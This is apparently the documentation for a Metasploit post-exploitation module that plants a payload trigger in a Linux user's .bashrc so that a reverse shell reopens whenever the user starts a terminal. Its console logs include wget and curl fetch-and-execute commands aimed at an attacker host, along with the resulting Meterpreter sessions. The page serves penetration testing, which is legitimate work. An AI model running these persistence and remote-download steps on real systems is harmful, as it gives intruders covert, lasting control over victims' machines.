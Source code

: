 ## Vulnerable Application

This module writes an execution trigger to the target's Bash profile.
The execution trigger executes a call back payload whenever the target
user opens a Bash terminal.

Verified on Ubuntu 22.04 and 18.04 desktop with Gnome

## Verification Steps

1. Start `msfconsole`
2. Get a Meterpreter session
3. `use exploit/linux/local/bash_profile_persistence`
4. `set SESSION [SESSION]`
5. `run`
6. On victim, open a new Bash terminal
7. You should get a new session with the permissions of the exploited user account

## Options

### BASH_PROFILE

The path to the target Bash profile. Defaults to `.bashrc`

### PAYLOAD_NAME

Name of the payload file. Defaults to random

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 

[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO O2XZweCh --no-check-certificate http://111.111.1.111:8181/l; chmod +x O2XZweCh; ./O2XZweCh& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:44878) at 2025-02-06 21:11:39 -0500
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/bash_profile 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > exploit
[*] Command to run on remote host: curl -so ./QfTygMjF http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./QfTygMjF;./QfTygMjF&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/bash_profile) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bash profile exists: /home/ubuntu/.bashrc
[+] Bash profile is writable: /home/ubuntu/.bashrc
[!] The service is running, but could not be validated. Bash profile exists and is writable: /home/ubuntu/.bashrc
[*] Created backup Bash profile: /root/.msf4/loot/20250206211215_default_222.222.2.222_desktop..bashrc_080965.txt
[*] Writing '/tmp/BfkldKp4' (100 bytes) ...
[*] Created Bash profile persistence
[+] Payload will be triggered when target opens a Bash terminal
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.1216/ubuntu18desktop.local_20250206.1216.rc
```
On the remote host open `/bin/bash`

```
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:40990) at 2025-02-06 21:12:21 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/bash_profile) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```
